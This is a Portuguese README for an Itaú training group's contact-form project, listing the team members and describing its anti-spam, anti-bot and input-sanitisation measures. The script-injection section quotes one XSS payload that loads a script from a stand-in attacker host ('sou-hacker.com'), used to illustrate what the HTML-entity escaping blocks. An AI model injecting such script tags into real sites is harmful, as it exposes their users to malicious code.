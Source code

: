 ﻿
# Itaú10estrelas

Repositório para desenvolvimento do desafio do grupo 05 do treinamento Itaú, edição PCD, maio de 2021.

## Integrantes: 

* Ângelo Beck
* Daniel Ferreira
* Eduardo Silva Rocha
* Jhony Ferreira Cruz Zuim é um cara legal
* Leandro Silva Araujo
* Letícia dos Santos Silva
* Luan Felipe da Cruz Brito
* Paulo Ricardo Barbosa de Souza
* Rafaela Souza Plachta
* Vanessa Gomes de Oliveira

## Considerações sobre segurança

Quando publicamos conteúdos na Internet, precisamos estar atentos aos ataques. Embora pareça estranho preocupar-se com uma simples publicação de textos, um único email inserido no conteúdo pode ser alvo para spammers.

Mais cuidado ainda quando desenvolvemos ferramentas interativas, onde os "bots" tentarão submeter formulários ou mesmo hackers poderão tentar enviar mensagens indesejadas através de possíveis brechas na segurança.

### Segurança total é impossível

Um sistema 100% seguro é quase impossível. Porém, um elevado cuidado com a segurança irá desencorajar os hackers desde que eles percebam que o esforço para quebrar a segurança não lhes traga uma recompensa valiosa o suficiente.

No nosso caso, um formulário que envia emails poderia oferecer aos hackers diversos objetivos interessantes:

1. Os hackers poderiam utilizar seus bots para encontrar endereços de emails válidos em nosso formulário. Estes endereços poderiam ser acrescentados às suas listas de SPAMS, para distribuir mensagens indesejadas aos integrantes do nosso grupo.

2. Os hackers poderiam tentar quebrar a segurança, e tentar utilizar o back-end para disparar SPAMS através dele para diversos usuários pelo mundo.

3. Os hackers poderiam utilizar o formulário para injetar scripts maliciosos nas mensagens, fazendo com que emails infectados sejam enviados aos integrantes do nosso grupo.

4. Os hakers poderiam utilizar seus bots para enviar mensagens spams para os integrantes do nosso grupo diretamente através do nosso formulário.

### Impedindo a coleta de endereços de email

Nosso formulário não envia ao back-end os endereços de destino. Ao invés, somente o nome do integrante é enviado. No back-end, uma lista secreta contém os emails válidos para completar a operação.

### Impedindo o envio de emails para outras pessoas

Como a lista de emails válidos está no back-end, somente é possível utilizar nosso formulário para enviar emails para os integrantes do nosso grupo. Qualquer tentativa de burlar esta regra será malograda e retornará uma mensagem de erro.

### Impedindo injeção de scripts

Todos os conteúdos inseridos no formulário são filtrados antes do envio, para garantir que caracteres especiais não causem problemas durante o transporte.

No back-end, os caracteres filtrados são recuperados e a mensagem original é reconstituída.

Porém, alguns caracteres especiais são convertidos, no back-end, para "HTML entities" -- sequências especiais que fazem os caracteres serem impressos corretamente na tela ao invés de serem interpretados como código HTML.

Desta forma, evitamos que um ataque de injeção de script não tenha êxito:

~~~
<script src="sou-hacker.com/script-malvado.js"></script>
~~~

### Driblando robôs

Nosso formulário utiliza X-HTTP-Request para submeter os dados do formulário, e o endereço do back-end está "hardcoded" dentro do script. Como a maioria dos crawlers (softwares robôes) que vasculham a rede e tentam enviar formulários não executam scripts, dificilmente algum deles tterá êxito ao tentar enviar qualquer coisa através do nosso formulário.

## Dupla verificação

Alguns campos do formulário são de preenchimento obrigatório. O javascript irá verificar os campos antes de submeter o formulário. Porém, o back-end fará uma segunda verificação, de modo que alguém que tente adulterar o formulário e enviar campos vazios ou dados inválidos, não terá êxito e receberá uma mensagem de erro do servidor.

